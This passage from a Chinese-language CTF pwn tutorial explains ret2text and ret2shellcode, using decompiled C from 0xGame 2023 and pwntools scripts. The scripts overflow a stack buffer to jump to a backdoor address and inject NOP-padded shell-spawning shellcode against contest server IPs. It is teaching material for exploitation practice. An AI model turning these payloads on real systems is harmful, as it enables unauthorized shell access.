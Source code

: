 因此，我们可以构造 payload 覆盖掉 ret 地址，使其跳转到后门函数：

```python
from pwn import *

conn = pwn.remote("210.30.97.133", 10012)
conn.recvuntil(b"?\n")
conn.sendline(b"a" * 0x28 + p64(0x40121C))
conn.interactive()
```

其中，前面需要填充 `0x20 + 0x8` 个字节，因为 `v4[32]` 的位置在 `rbp-20h` 的位置，我们覆盖到 rbp 后，还要再填充一次栈的宽度（64 位机器是 8 字节，32 位机器是 4 字节）来覆盖掉 rbp，之后才是真正的 ret 地址所在的位置。

## ret2shellcode

如果程序没有开启 NX 保护（可写不可执行，可执行不可写），那么我们可以通过向栈中写入恶意代码，然后控制程序流执行到我们的恶意代码来得到权限。

**0xGame 2023 shellcode-any**

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  char *buf; // [rsp+8h] [rbp-8h]
  void (*bufa)(void); // [rsp+8h] [rbp-8h]

  bufinit(argc, argv, envp);
  buf = (char *)mmap((void *)0x20230000, 0x1000uLL, 7, 34, -1, 0LL);
  puts("Now show me your code:");
  read(0, buf, 0x100uLL);
  puts("Implementing security mechanism...");
  v3 = time(0LL);
  srand(v3);
  bufa = (void (*)(void))&buf[rand() % 256];
  close(1);
  puts("Done!");
  bufa();
  return 0;
}
```

可以看到，我们可以向栈中写入程序片段，并且程序会随机执行 buf 中的一条命令，可以把 buf 的前面都填充 `nop` 指令（空指令，0x90，什么都不做，并继续执行接下来的命令），将 shellcode 放在 buf 的末尾来增加成功执行的概率。

```python
from pwn import *

context(os="linux", arch="amd64")

conn = remote("8.130.35.16", 51003)
conn.recvuntil("code:\n")
conn.sendline(asm(shellcraft.sh()).rjust(0x100, b"\x90"))
conn.interactive()
```

